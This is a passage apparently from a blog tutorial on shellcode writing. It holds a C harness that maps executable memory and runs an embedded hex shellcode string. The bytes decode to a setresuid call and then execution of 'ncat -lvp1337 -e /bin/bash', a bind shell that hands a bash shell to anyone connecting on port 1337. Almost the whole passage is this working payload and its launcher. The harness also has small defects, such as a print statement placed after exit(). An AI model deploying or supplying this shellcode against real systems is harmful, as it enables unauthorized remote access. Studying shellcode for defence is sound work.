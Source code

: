 ```c
#include <'unistd.h'>   //Defines misc symbolic constants and types, and declares misc functions

int (*shellcodetotest)();  /* Global Variable type int, shellcode to test is a function pointer */

char shellcode[] = "\xeb\x35\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x5e\x31\xc0\x88\x46\x0d\x88\x46\x16\x88\x46\x22\x89\x76\x23\x8d\x5e\x0e\x89\x5e\x27\x8d\x5e\x17\x89\x5e\x2b\x89\x46\x2f\xb0\x0b\x89\xf3\x8d\x4e\x23\x8d\x56\x2f\xcd\x80\xe8\xc6\xff\xff\xff\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x6e\x63\x61\x74\x23\x2d\x6c\x76\x70\x31\x33\x33\x37\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x23"; /* Global array */

int main(int argc, char **argv) {
	void *ptr = mmap(0, 150, PROT_EXEC | PROT_WRITE| PROT_READ, MAP_ANON | MAP_PRIVATE, -1, 0); /* Mmap functions passed to *ptr pointer */
	if(ptr == MAP_FAILED){
		perror("mmap");  /* Func to error of program */
		exit(-1);
printf("Shellcode Length:  %d\n", strlen(shellcode));
	}
	memcpy(ptr, shellcode, sizeof(shellcode)); /* Memcpy function */
	shellcodetotest = ptr;	/* Here we test the shellcode with mmap functions */
	shellcodetotest();   /* Exec the shellcode */
	return 0;      /* return */
}
```
Remove this part from your shellcode `\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44`.

Let's test!!! Use Shellcode to listen port 1337!!!

![shellcode](/assets/img/headers/shellcode-part-2/shellcode11.png)
![shellcode](/assets/img/headers/shellcode-part-2/shellcode12.png)
